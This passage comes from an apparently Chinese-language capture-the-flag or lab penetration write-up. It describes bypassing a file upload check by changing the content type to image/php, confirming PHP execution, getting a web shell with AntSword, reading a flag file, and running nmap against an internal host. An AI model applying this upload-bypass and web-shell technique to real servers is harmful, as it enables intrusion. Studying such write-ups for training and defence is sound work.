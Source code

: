 将 `image/png` 修改为 `image/php`, 使服务器使用 `php` 作为后缀名.

得到如下响应:

```http
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Content-Type: text/html; charset=utf-8
Date: Fri, 16 May 2025 12:44:13 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Caddy
Server: Caddy
Server: nginx
Set-Cookie: 24b16fede9a67c9251d3e7c7161c83ac_ci_session=mcfhqflupgcv4qlnddi573c41p5a7ddu; expires=Fri, 16-May-2025 14:44:13 GMT; Max-Age=7200; path=/; httponly
X-Powered-By: PHP/5.6.36
Content-Length: 151

{"status":0,"code":"\u4e0a\u4f20\u9519\u8bef\uff1a<p>Your server does not support the GD function required to process this type of image.<\/p>","id":0}
```

即:

```
上传: 错误 <p>Your server does not support the GD function required to process this type of image.</p>
```

这说明代码已执行到 L201, 并在 L202 break, 因此 L188 的 `@file_put_contents` 语句并已经执行, 这说明文件已经上传成功.

## 2. 渗透

检查 <http://.../uploadfile/member/1/0x0.php>, 看到 `phpinfo()` 的输出 PHP 5.6.36 信息页面, 说明文件上传成功, 并且能够执行 PHP 代码.

使用 AntSword 连接到 <http://.../uploadfile/member/1/0x0.php>, 成功获得 shell.

在文件系统 `/` 根目录下, 发现 `flag` 文件, 获得敏感信息:

```
1d856be1-a340-4f56-8d26-f4f013a79d3f
```

根据 "关于" 页面中的提示, 使用 `nmap` 扫描 `192.168.9.130:8088`:

```sh
$ nmap 192.168.9.130 -p 8088
Starting Nmap 7.60 ( https://nmap.org ) at 2025-05-16 21:01 CST
Nmap scan report for 192.168.9.130
Host is up (0.00056s latency).
PORT     STATE  SERVICE
8088/tcp closed radan-http
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

发现端口是关闭的.
